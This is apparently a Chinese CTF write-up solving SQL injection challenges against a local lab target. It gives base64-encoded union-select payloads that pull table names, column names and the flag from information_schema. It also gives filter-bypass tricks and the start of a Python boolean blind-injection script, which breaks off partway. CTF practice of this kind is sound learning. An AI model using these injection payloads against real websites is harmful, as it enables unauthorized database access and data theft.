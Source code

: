 * 爆表名
  `id=bnVsbCB1bmlvbiBzZWxlY3QgMSxncm91cF9jb25jYXQodGFibGVfbmFtZSkgZnJvbSBpbmZvcm1hdGlvbl9zY2hlbWEudGFibGVzIHdoZXJlICAKdGFibGVfc2NoZW1hPSJjdGYi`
  （ id=null union select 1,group_concat(table_name) from information_schema.tables where table_schema="ctf" ）
  得到表名：Fl4g

* 爆列名
  `payload：bnVsbCB1bmlvbiBzZWxlY3QgMSxncm91cF9jb25jYXQoY29sdW1uX25hbWUpIGZyb20gaW5mb3JtYXRpb25fc2NoZW1hLmNvbHVtbnMgd2hlcmUgdGFibGVfc2NoZW1hPSJjdGYiIGFuZCB0YWJsZV9uYW1lPSJGbDRnIg==`
  （id=null union select 1,group_concat(column_name) from information_schema.columns where table_schema="ctf" and table_name="Fl4g"）
  得到列名：**id,des,value**，~~这不一眼看出来flag在value里~~

* 爆数据（也可得flag
  `payload：id=bnVsbCB1bmlvbiBzZWxlY3QgZ3JvdXBfY29uY2F0KGRlcyksZ3JvdXBfY29uY2F0KHZhbHVlKSBmcm9tIEZsNGc=`（ id=null union select group_concat(des),group_concat(value) from Fl4g ）
  得**flag{NEwsT4r_CtF_Z0ZAdcaae68941b}**

### blindsql1

* 尝试判断闭合方式`Alice\`，**发现没有回显，同时确定可以注入**

* 尝试 ’ ，“ ，等方式，发现在`Alice' --+`时有特殊报错`”no: array(1) { [0]=> string(1) " " }“`通过比较确定（空格）被禁用，多次尝试后发现（空格）= **union**被禁用，可以尝试布尔盲注

* **主要步骤：写脚本**(这破东西研究一下午了)

  ```python
  import requests
  import time
  import string
  
  url='http://127.0.0.1:4772/'
  result=''
  
  for i in range(1,100):											/开始循环字数
      print(f'[+] booming {i}')
      pre_requests=''
      for c in string.ascii_letters + string.digits + '_-{}':		/要爆的字符
          time.sleep(0.1)											/防止服务器响应不及，但实测其实在本地上可以不用
  
          print("[+] trying:",c)
          
        	tables=f'(Select(group_concat(table_name))from(infOrmation_schema.tables)where((table_schema)like(database())))'
          
  ```
          这一段有点死亡括号闭合了，主体就是mysql语句，跟上面一题类似，在information_schema.tables这个表里查询表名
          但是，这里用like语法代替”=“，（）代替了空格
          ```
      
          char=f'(ord(mid({tables},{i},1)))'		/其实可以一口气写完的，但为了可读性就分开了，这一步是截取表名的字符并转化为ascill码
      
          asc=f'(({char})in({ord(c)}))'			/这一步是比较我们循环的字符和表里的字符相不相同
      